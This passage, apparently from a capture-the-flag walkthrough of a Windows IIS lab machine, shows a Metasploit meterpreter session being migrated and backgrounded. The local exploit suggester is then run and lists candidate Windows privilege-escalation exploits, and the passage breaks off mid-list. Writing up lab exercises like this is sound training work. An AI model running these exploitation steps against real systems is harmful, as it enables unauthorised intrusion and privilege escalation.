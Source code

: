 ```
meterpreter > migrate 2704
[*] Migrating from 3056 to 2704...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
```

Next, we will have to background the meterpreter session that is running and execute the local_exploit_suggester module to find possible exploits that we could use.

```
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search local_exploit

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1 
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 38 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

Afterwards, we will then try out all the exploits. From our experimentation, we know that the following exploits are vulnerable:
- exploit/windows/local/ms10_015_kitrap0d
- exploit/windows/local/ms14_070_tcpip_ioctl
- exploit/windows/local/ms15_051_client_copy_image
- 
